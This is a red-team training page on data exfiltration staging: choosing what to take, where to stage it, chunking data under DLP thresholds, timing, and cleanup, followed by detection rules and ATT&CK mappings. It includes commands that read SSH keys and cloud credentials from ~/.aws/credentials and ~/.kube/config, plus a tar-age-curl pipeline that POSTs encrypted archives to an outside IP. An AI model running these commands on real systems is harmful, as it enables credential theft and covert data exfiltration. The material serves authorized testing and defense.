

# Exfiltration Principles & Staging

*The strategy layer before any data moves - what to take, how to stage it, and the artifact trail each decision leaves.*

Section index: [02 - Encoding/compression/encryption](02-encoding-compression-encryption.md) |
[03 - DNS tunneling](03-dns-tunneling.md) | [04 - HTTPS & cloud](04-https-and-cloud-exfil.md) |
[05 - Covert channels](05-covert-channels.md) | [06 - Out-of-band & throttling](06-out-of-band-and-throttling.md)

## What & why

Exfiltration is the highest-risk phase of a red team operation in terms of detection. Every byte
moved generates at minimum a network flow record. Most staging operations also generate file
writes, process events, and elevated disk I/O. The job before touching data is to answer four
questions: What is worth taking? Where will it stage? Over which channel? At what rate? Answering
them well minimizes the artifact footprint. Answering them badly turns a successful access into a
loud collection bust.

## Technique

### Deciding what to take

Minimize ruthlessly. Take only what proves the impact you were authorized to demonstrate. In an
authorized engagement that means:

- Credential samples (not bulk password dumps)
- Configuration files proving a specific misconfiguration
- A single record proving an IDOR or data-access issue - not a full database
- Screenshots or small documents proving access to a sensitive area

Never bulk-exfil real PII, financial records, or health data unless the SOW explicitly authorizes
it with specific data-handling instructions. The legal and ethical cost dwarfs any finding value.

```bash
# identify high-value targets without writing anything to disk
find /home -name "*.pem" -o -name "id_rsa" -o -name "*.key" 2>/dev/null | head -20
find /etc -name "*.conf" -readable 2>/dev/null | xargs grep -l "password\|secret\|token" 2>/dev/null
env | grep -iE "key|token|secret|pass|aws|azure"
cat ~/.aws/credentials ~/.kube/config ~/.netrc 2>/dev/null
```

All `find` and `cat` invocations generate auditd execve records if the rules are active. Read
from `/proc` directly or use shell built-ins where possible to reduce process spawning.

### Staging location selection

| Location | Survives reboot | Disk artifact | Auditd/EDR visible | Notes |
|---|---|---|---|---|
| `/dev/shm` | No | No (tmpfs) | Yes (file-create hook) | Best for transient staging |
| `/tmp` | Maybe (systemd-tmpfiles) | Yes | Yes | Common and watched by FIM |
| `/run/user/UID` | No (tmpfs) | No | Yes | Session-scoped tmpfs |
| `/proc/self/fd` via memfd | No | No | Yes (memfd_create syscall) | For small blobs |
| Home dir hidden file | Yes | Yes | Yes | Persistent but obvious on FIM |

Prefer `/dev/shm` for transient staging. It is tmpfs so no disk block allocation, but EDR kernel
hooks still see the file-create and file-write events. There is no "invisible" staging location
on a host with a kernel-level sensor.

```bash
# stage compressed loot in memory-backed tmpfs
mkdir -p /dev/shm/.s
tar -czf /dev/shm/.s/out.tar.gz /tmp/collected/ 2>/dev/null
```

### Compress before you move - see page 02

Always compress (and encrypt) before transport. Details in
[02 - Encoding, compression & encryption](02-encoding-compression-encryption.md). Short version:
compress then encrypt; do not encode unless the channel requires text; use `age` or `openssl enc`
with key files (not `-pass pass:` which leaks the passphrase into argv/auditd).

### Chunking and size shaping

DLP and NetFlow analytics often trigger on single transfers above a threshold (commonly 10-50 MB
depending on the org). Split large archives into chunks sized below that threshold.

```bash
# split into 8 MB chunks (adjust based on target org baseline)
split -b 8M /dev/shm/.s/out.tar.gz /dev/shm/.s/chunk_

# verify chunks
ls -lh /dev/shm/.s/chunk_*
```

Each chunk is a separate file-create event, so splitting does not hide the total volume -
it just flattens each individual transfer. The aggregate volume still appears in NetFlow.

### Channel selection

Match the egress channel to what the host normally sends. A server that talks only to internal
services should not start making HTTPS requests to a CDN edge node. A developer workstation
probably makes many HTTPS requests to SaaS platforms - that is a better cover channel.



### Timing

Off-hours vs business-hours is not a simple choice:

- **Business hours** provide cover in high-traffic environments (large volumes blend in). But
  human SOC analysts are more likely to be actively watching.
- **Off-hours** reduce analyst coverage but also reduce the baseline traffic that conceals
  anomalous volume. A 50 MB upload at 3 AM to an unusual destination stands out sharply.

Default: match the timing to the environment's own baseline. Check firewall/proxy logs you can
access to understand when similar traffic is normal.

### Staging cleanup

Delete staging files after transfer and verify deletion. But note:

- `rm` records a directory-entry removal - auditd logs the `unlinkat` syscall.
- The file's inode blocks are not overwritten by default - forensic recovery is possible.
- Centralized log shippers may have already forwarded the file-create event.
- `shred` or `wipe` generate very distinctive high-frequency write patterns that are themselves
  a forensic signal.

```bash
# basic cleanup
rm -f /dev/shm/.s/chunk_* /dev/shm/.s/out.tar.gz
rmdir /dev/shm/.s 2>/dev/null

# more thorough (but still leaves inode artifacts and is itself suspicious)
shred -uz /dev/shm/.s/out.tar.gz
```

The quiet play: avoid creating large staging files in the first place. Stream directly to the
transport channel where possible.

### Stream-without-staging pattern

```bash
# compress + encrypt + POST in one pipeline - no staging file
tar -czf - /tmp/collected/ \
  | age -r age1ql3z7hjy54hp88wypcewmmgra2wrzmrz... \
  | curl -s --data-binary @- https://203.0.113.10/recv

# confirm transfer before cleanup
echo $?
```

This leaves: shell history, auditd execve records for `tar`/`age`/`curl`, a NetFlow record for
the outbound HTTPS session, and (if proxy-intercepted) the POST body. No disk staging artifact.

## OPSEC notes

- Staging files in `/tmp` or `/dev/shm` are obvious to any FIM or EDR running on the host.
  File names and sizes are logged. Avoid meaningful names like `loot.tar.gz`.
- Large files trigger disk-quota and disk-usage monitoring even in tmpfs (via process `/proc`
  inspection by monitoring agents).
- Reading many files in a short window - the "collection burst" - is a behavioral IOC. Slow
  your collection or spread it over time.
- The `tar` command with a path argument reveals exactly what you are staging in the argv.
  Auditd and EDR capture it in full.
- Cleanup is logged. `rm`, `unlink`, and `shred` all leave syscall records. In a world of
  central logging, cleaning up local evidence often costs more in signal than it saves.
- Rate throttling matters more than encoding. A 200 MB upload over 30 seconds is louder than
  a 200 MB upload over 6 hours, regardless of what it contains. See
  [06 - Out-of-band & throttling](06-out-of-band-and-throttling.md).

## Detection & telemetry

### Host signals

| Signal | Log source | What to look for |
|---|---|---|
| Archive creation in `/tmp` or `/dev/shm` | auditd `open(O_CREAT)`, EDR file event | New `.tar.gz`/`.zip`/`.7z`/`.enc` files in temp paths |
| `tar`/`zip`/`7z` with broad path arg | auditd execve, EDR cmdline | `tar -czf - /home/` or `tar ... /etc/` - broad collection paths |
| Collection burst | auditd, EDR | Dozens of `open(O_RDONLY)` across distinct paths within seconds |
| Large file in tmpfs | EDR `/proc` inspection | File in `/dev/shm` > 5 MB |
| Sensitive-path reads | auditd file watches | `~/.aws/credentials`, `~/.ssh/id_rsa`, `/etc/shadow` |

**auditd watches for staging paths:**

```
-w /dev/shm -p wa -k staging_tmpfs
-w /tmp -p wa -k staging_tmp
-w /var/tmp -p wa -k staging_vartmp
```

**osquery - large files in tmpfs:**

```sql
SELECT path, size, atime, mtime, ctime
FROM file
WHERE directory IN ('/dev/shm', '/tmp', '/var/tmp')
  AND size > 5242880
ORDER BY mtime DESC;
```

### Network signals

| Signal | Source | What to look for |
|---|---|---|
| Large outbound transfer | NetFlow/IPFIX | Single session with bytes_out > 10 MB to external IP |
| Upload volume anomaly | Proxy logs, CASB | Host exceeds daily upload baseline by >3x |
| Collection burst then egress | SIEM correlation | File-access events followed within 5 min by large outbound connection |

**Splunk correlation - collection burst to exfil:**

```spl
index=edr sourcetype=file_events action=open
| bin _time span=2m
| stats dc(file_path) as distinct_reads by host, _time
| where distinct_reads > 50
| join host [
    search index=netflow bytes_out > 1000000
    | stats sum(bytes_out) as total_out by host, _time
  ]
| where total_out > 5000000
```

## MITRE ATT&CK

- **T1560** - Archive Collected Data
- **T1560.001** - Archive via Utility (tar, zip, 7z)
- **T1074** - Data Staged
- **T1074.001** - Data Staged: Local Data Staging
- **T1005** - Data from Local System (collection phase)
- **T1048** - Exfiltration Over Alternative Protocol

## References

- MITRE ATT&CK T1074 Data Staged: https://attack.mitre.org/techniques/T1074/
- MITRE ATT&CK T1560 Archive Collected Data: https://attack.mitre.org/techniques/T1560/
- Linux auditd documentation: https://man7.org/linux/man-pages/man8/auditd.8.html
- osquery file table schema: https://osquery.io/schema/current/#file
- age encryption tool: https://age-encryption.org
- The Hacker Playbook 3 - exfil chapter (Peter Kim, 2018) - print reference
- SANS FOR508 Linux/Mac Forensics course notes - staging artifact discussion
